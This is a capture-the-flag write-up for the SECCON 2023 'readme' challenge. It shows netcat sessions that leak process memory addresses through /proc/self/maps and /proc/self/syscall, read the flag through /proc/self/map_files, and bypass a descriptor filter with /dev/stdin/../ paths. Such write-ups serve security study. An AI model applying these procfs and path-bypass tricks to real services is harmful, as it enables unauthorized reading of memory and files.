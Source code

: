 # Lesson Learn
- /proc/self/syscall
- /proc/self/maps 
- /proc/self/map_files/(xxxx)-(xxxx)
- /proc/self/fd/

# Write Up
There are two options.
- solution 1 : open map_files
- solution 2 : bypass fd  

## solution 1 : open map_files
1. check a characteristics around /proc/self/syscall, /proc/self/maps  
    e.g.
    ```console
    $ nc readme-2023.seccon.games 2023
    path: /proc/self/maps
    b'
    55d0743de000-55d0743df000 r--p 00000000 fc:03 1058172  /usr/local/bin/python3.11
    55d0743df000-55d0743e0000 r-xp 00001000 fc:03 1058172  /usr/local/bin/python3.11
    55d0743e0000-55d0743e1000 r--p 00002000 fc:03 1058172
    '
    path: /proc/self/syscall
    b'0 0x5 0x55d07575e6b0 0x400 0x2 0x0 0x0 0x7ffe8e485d38 0x7f332976907d\n'
    ```
2. guess and calculate an offset using a local container.  
    edit server.py like this.  
    - before  
        ```py
        :
        :
            with open(os.path.realpath(path), "rb") as f:
                print(f.read(0x100))
        ```
    - after  
        ```py
        :
        :
            with open(os.path.realpath(path), "rb") as f:
                print(f.read())
        ```
    build a container on a local machine  
    ![Offset Calc Image](offsetCalc.png) 

3. try that on a target machine
    ```console
    $ nc readme-2023.seccon.games 2023
    path: /proc/self/syscall
    b'0 0x7 0x55ff3af0b6b0 0x400 0x2 0x0 0x0 0x7ffdbcab9868 0x7f655358f07d\n'
    path: /proc/self/map_files/7f6553679000-7f655367a000
    b'SECCON{y3t_4n0th3r_pr0cf5_tr1ck:)}\n'
    ```

## solution 2 : bypass fd  
`/dev/stdin` --> `/proc/self/fd/0`  
`/dev/stdin/../` --> `/proc/self/fd`  
`/dev/stdin/../6` --> `/proc/self/fd/6`
